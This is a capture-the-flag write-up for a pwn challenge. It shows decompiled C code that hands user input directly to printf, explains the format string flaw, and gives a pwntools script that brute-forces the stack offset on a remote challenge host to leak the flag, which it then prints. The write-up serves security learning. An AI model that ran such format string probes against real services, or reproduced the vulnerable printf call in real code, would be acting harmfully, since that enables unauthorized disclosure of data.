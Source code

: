```yaml
---
title: Question
date: 2024-09-27
author: zacian
tags:
  - pwn
draft: false
---
```


## Description

“Life is not a period or a question mark. It’s an exclamation point” — Bashar

Instance: nc 143.110.187.156 30001

Author: tourpran

## Intuition

On connecting to the netcat instance we can see the following

```
Heard there is a big dawg in town ?
Do you know where he is ?
```

and on giving any input, it prints the same back 

```
Do you know where he is ? Hello
Hello
All you have to say is this, huh:
Hello
```

The challenge also gave us a binary file. But on executing, it gave us `segmentation fault`. So i thought to have a decompiled view of the binary using ghidra.

```c
int main(EVP_PKEY_CTX *param_1)

{
  long in_FS_OFFSET;
  char *sav_flag;
  size_t buff_size;
  FILE *flag_val;
  char *user_input;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  flag_val = fopen("./flag.txt","r");
  buff_size = 80;
  getline(&sav_flag,&buff_size,flag_val);
  puts("Heard there is a big dawg in town ?");
  printf("Do you know where he is ? ");
  __isoc99_scanf(&DAT_00102057,user_input);
  puts("All you have to say is this, huh:");
  printf(user_input);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

we can see that the `user_input` it printed directly, without any specified format string, which could cause the input data to be evaluated as a command and is vulnerable to [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)

To test we can input different format strings. The one most people is `%s` sometimes in multiple sets. For our challenge this didn't work but using `%s%s` did print out `null`. Another payload is using `%p` which prints a random address value in hex.

## Solution

Now from the above code we can see, the value of flag is being read and saved in a variable, which is named as `flag_val`. The value is hence being saved on the stack. We just need to know the offset to the pointer and we can print the value.

As the binary was not runnig locally, testing for the offset became a bit hard, so instead i bruteforced the offset using `pwntools`

```py
from pwn import *

for i in range(50):
    io = remote('143.110.187.156', 30001)
    io.sendline(f"%{i}$s".encode())
    io.recvuntil(b'All you have to say is this, huh:')
    check_flag = io.recvall()
    if b'H7CTF' in check_flag:
        print(check_flag.decode('utf-8'))
        io.close()
        break
    io.close()
```

and the flag we got is `H7CTF{f0rm47_s71ng$_4r3_s7!ll_r3l3v4n7}`